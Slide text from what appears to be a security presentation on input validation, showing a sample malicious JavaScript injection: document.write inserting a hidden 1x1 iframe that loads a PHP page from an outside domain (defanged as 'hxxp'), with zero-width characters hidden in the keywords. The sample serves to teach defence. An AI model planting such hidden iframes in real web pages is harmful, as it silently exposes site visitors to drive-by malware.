

# Input Validation (Slide 3 of 5)
JavaScript

	do​cument.wr​ite
	('<if​rame scrolling="no" width="1" height="1" border="0" 	frameborder="0" 	src="hxxp://43kaylia.eu/xxx1/kqxleqjpcoh8.php"></iframe>')
44